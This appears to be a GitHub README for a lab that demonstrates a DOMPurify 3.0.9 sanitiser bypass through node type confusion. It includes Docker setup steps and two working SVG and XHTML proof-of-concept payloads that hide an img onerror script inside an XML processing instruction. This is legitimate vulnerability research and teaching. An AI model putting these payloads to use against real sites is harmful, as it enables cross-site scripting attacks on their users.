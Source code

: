 # Dompurify 3.0.9 bypass - Node type confusion

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

Link to the full article (in french) : https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion

## Installation

```
docker build -t dompurify-3.0.9-bypass .
docker run -p 3000:3000 dompurify-3.0.9-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

The application allows uploading files in HTML, SVG, or XHTML format, but accessing these files, although possible, is restricted by a CSP policy. However, including such a file, sanitized by Dompurify, within the main page, enables bypass exploitation and execution of JavaScript code.

## Exploitation

### HTML file

The vulnerability is exploitable only when the node is of XML type. Including an HTML file confirms the proper sanitization by Dompurify when the node is of HTML type.

### SVG file

The following SVG file allows bypass exploitation:
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

### XHTML file

The following XHTML file allows bypass exploitation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.9.</p>
    <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</body>
</html>
```
